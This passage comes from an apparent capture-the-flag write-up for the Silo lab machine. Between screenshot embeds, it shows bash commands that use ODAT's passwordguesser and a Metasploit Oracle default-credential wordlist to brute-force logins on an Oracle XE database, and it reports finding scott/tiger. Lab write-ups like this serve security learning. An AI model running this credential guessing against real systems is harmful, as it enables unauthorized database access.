 ```bash
```

<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As the tool `oday.py` does not give me a correct **SID**, I'm going to use **XE** (community recommendation) since it is an instance present in most **Oracle databases**. With the **passwordguesser** utility I can investigate about valid credentials for this instance and after a long time of waiting I get them. There is also the possibility of creating a custom dictionary using one of **Metasploit** that is specific for **Oracle DB**, it is only necessary to make a small modification and then with the parameter **--accounts-file** I can indicate to the script the path of the dictionary that must use to guess the correct one.

> **Oracle Database Express Edition** (**XE**) is a free, full-featured version of **Oracle Database**, designed for individuals and organizations seeking to get started with Oracle technology without incurring licensing costs. It's a lightweight database that's easy to download, install, and manage. **XE** is suitable for developers, DBAs, data scientists, educators, and anyone curious about databases. 

```bash
./bin/python3 odat.py --help
# passwordguesser   to know valid credentials

./bin/python3 odat.py passwordguesser
./bin/python3 odat.py passwordguesser -s 10.10.10.82
./bin/python3 odat.py passwordguesser -s 10.10.10.82 -d XE
# scott/tiger

locate oracle_ | grep pass
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | sed 's/ /\//' | head -n 5
# Or:
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' | head -n 5

./bin/python3 odat.py passwordguesser -s 10.10.10.82 -d XE --help
# --accounts-file FILE                file containing Oracle credentials (default: accounts/accounts.txt)
```

<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
